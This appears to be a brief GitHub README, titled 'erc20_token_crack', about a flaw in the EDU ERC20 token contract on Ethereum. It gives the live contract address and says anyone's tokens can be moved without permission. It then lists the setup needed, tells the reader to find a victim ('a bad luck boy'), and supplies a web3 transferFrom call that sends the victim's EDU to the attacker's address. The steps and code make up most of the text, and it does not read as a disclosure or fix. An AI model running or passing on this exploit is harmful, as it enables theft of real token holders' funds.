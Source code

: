 # erc20_token_crack
a doc for erc20 token crack

# 0x00
some days ago, i got a erc20 contract security problom in EDU

- contract address: 0xa0872eE815B8dd0F6937386Fd77134720d953581
- explorer: https://etherscan.io/address/0xa0872eE815B8dd0F6937386Fd77134720d953581

in this case, we can tranfer anyone's EDU without permission.
this is the bug look:

[![CfRvQ0.md.jpg](https://s1.ax1x.com/2018/05/26/CfRvQ0.md.jpg)](https://imgchr.com/i/CfRvQ0)

So, lets bigin the game

# 0x01
what we need first

- a eth server with a geth or web3 client that we can send transaction
- a eth address

＃ 0x02
seek a bad luck boy

# 0x03

  # add abi
  abi = {edu_abi} # replace with edu abi
  edu_contract = web3.eth.contract(abi).at('0xa0872eE815B8dd0F6937386Fd77134720d953581')
  edu_contract.transferFrom('the bad luck boy', eth.coinbase, 10, {'from': eth.coinbase})
  
# 0x04
 here we finished, at last, dont be evil :)



